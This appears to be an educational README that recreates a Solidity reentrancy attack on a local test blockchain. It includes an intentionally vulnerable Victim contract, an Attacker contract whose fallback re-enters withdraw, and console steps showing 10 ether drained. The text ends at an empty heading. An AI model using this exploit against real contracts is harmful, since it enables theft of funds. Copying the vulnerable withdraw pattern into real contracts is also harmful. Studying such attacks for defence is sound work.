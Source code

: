 # Recreating Reentrancy Attack 
The document below goes through a "reentrancecy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

``` 
$ npm i -g ethereumjs-testrpc 
$ npm i -g truffle 
``` 

### 2. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000; 
    if (!msg.sender.call.value(transferAmt)()) throw; 
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    } 
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this 
folder is your contracts in their `binary` and `abi` forms. 

```
$ truffle compile
```

The command below `deploys` the contracts 
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account 
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 5. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console, 
so we can interact with our deployed contracts (Victim, Attacker), and 
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victimAddress  = victim.then(contract  => contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this 
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract  => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier, 
that allows us to send ether to that function/contract from our `acct1` address. 
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again, 
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this 
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 6. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have 
eth in that contract, lets steal some of that. but first lets check 
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attackerAddress = attacker.then(contract => contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function. 

Now if everything is done correctly, we can see the reflection of what happen
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

7. The Attack!!!

